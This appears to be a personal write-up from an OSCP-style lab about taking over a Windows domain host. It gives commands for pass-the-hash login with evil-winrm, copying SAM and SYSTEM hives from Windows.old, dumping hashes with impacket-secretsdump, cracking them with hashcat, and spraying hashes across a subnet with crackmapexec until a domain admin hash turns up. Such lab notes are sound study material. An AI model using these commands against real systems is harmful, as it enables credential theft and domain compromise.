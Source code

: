 We directly jumped into Initial Foothold because we already have user Celia NTLM hash and she is local admin of MS02 (T2).

**Now will try get a shell on MS02 with the Celia creds using Evil-winrm:**
```
evil-winrm -i 10.10.151.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd
```
![[Pasted image 20240602170026.png]]
Boom......! We get into MS02 as Celia.almeda

Though in crackmapexec winrm show that we are the local admin of MS02, we can't list the administrator directory also we don't have admin level privileges.

![[Pasted image 20240602171100.png]]

So what we do is, enumerate the MS02 further.

**First will check the C Directory:**
![[Pasted image 20240602172952.png]]
There is an interesting directory **Windows.old**. 

**Lets enumerate that:**
![[Pasted image 20240602173124.png]]

Okay, will check our permissions on this directory, especially \\**Windows.old\\Windows\\system32**

![[Pasted image 20240602173325.png]]
Great, we have access over this directory because we are authenticated user.

Now will try to copy two important files **SYSTEM and SAM** from system32 directory to our kali machine:
```
download C:\windows.old\Windows\System32\SAM /root/offsec/oscp/AD/T2/SAM
download C:\windows.old\Windows\System32\SYSTEM /root/offsec/oscp/AD/T2/SYSTEM
```

![[Pasted image 20240602173618.png]]
![[Pasted image 20240602173633.png]]

![[Pasted image 20240602173748.png]]
We got it..!

**So, now will get the NTLM hashes from this files using Impacket-secretdump:**
```
impacket-secretsdump -sam SAM -system SYSTEM local
```

![[Pasted image 20240602173931.png]]
As always, will save it in a file and crack using hashcat.

**Letsss carck the hash:**
```
hashcat -m 1000 ntlm.hash /usr/share/wordlists/rockyou.txt --force
```

![[Pasted image 20240602174105.png]]
Again we can't crack it, so will do the same as we did  in MS01, brute forcing with hashes.

**Lets Brute force using Crackmapexec: I have saved the usernames and hashes in separate files**
```
crackmapexec smb 10.10.151.0/24 -u users.txt -H ntlm.hash --continue-on-success --shares
```

![[Pasted image 20240602174339.png]]

![[Pasted image 20240602174357.png]]
So, Finally we got the Domain admins NTLM hash, **tom_admin** it is.

No need to Privilege escalation in MS02 (T2), Because we already got the domain admin's Ntlm hash, so we can directly go to DC01.
